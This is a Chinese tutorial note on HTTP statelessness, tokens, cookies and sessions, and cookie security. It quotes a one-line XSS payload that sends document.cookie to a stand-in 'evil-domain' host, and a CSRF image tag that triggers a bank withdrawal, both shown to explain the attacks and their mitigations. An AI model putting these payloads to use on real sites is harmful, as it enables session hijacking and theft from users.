 # http是无状态的；



## 无状态的问题



爬虫系列教程的第一篇：HTTP详解中我们便说过HTTP的五大特点，而其中之一便是：**无状态**;



<font color=red>**HTTP无状态：服务器无法知道两个请求是否来自同一个浏览器，即服务器不知道用户上一次做了什么，每次请求都是完全相互独立。**</font>

<font color=red>注意无状态的对象就是浏览器；来自于同一个客户端，</font>



早期互联网只是用于简单的浏览文档信息、查看黄叶、门户网站等等，并没有交互这个说法。但是随着互联网慢慢发展，宽带、服务器等硬件设施已经得到很大的提升，互联网允许人们可以做更多的事情，所以交互式Web慢慢兴起，而HTTP无状态的特点却严重阻碍其发展！



**交互式Web：客户端与服务器可以互动，如用户登录，购买商品，各种论坛等等**



不能记录用户上一次做了什么，怎么办？聪明的程序员们就开始思考：怎么样才能记录用户上一次的操作信息呢？于是有人就想到了隐藏域。

隐藏域写法：<input type="hidden" name="field＿name" value="value">


http的无状态代表的是：每次请求都是独立了；









token的无状态；不需要在服务器记录状态；   cookie和session需要在服务端来记录状态；

主要是为了解决，负载均衡的问题； 也就是说明token具有可扩展性；

token访问那个服务器 都不会出现问题；



Cookie主要用于以下三个方面：

1. 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
2. 个性化设置（如用户自定义设置、主题等）
3. 浏览器行为跟踪（如跟踪分析用户行为等）



Cookie带来的安全性问题

**会话劫持和XSS：**在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。会获取到cookie；



**跨站请求伪造（CSRF）：**维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。解决CSRF的办法有：隐藏域验证码、确认机制、较短的Cookie生命周期等  

